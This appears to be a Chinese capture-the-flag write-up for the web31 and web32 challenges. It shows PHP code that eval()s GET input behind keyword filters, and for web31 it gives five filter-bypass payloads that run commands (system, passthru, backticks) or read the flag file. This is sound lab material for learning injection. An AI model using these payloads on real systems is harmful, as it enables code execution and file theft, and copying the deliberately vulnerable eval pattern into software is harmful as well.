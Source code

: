 #### web31

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这题屏蔽了关键词 /flag|system|php|cat|sort|shell|\.| |\'

payload:

> 1. c=eval($_GET[1]);&1=system("tac flag.php");
> 2. c=show_source(scandir(getcwd())[2]);
> 3. c=show_source(next(array_reverse(scandir(pos(localeconv())))));
> 4. c=passthru("tac%09fla*");
> 5. c=echo\`tac%09fla*\`;

#### web32

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:56:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
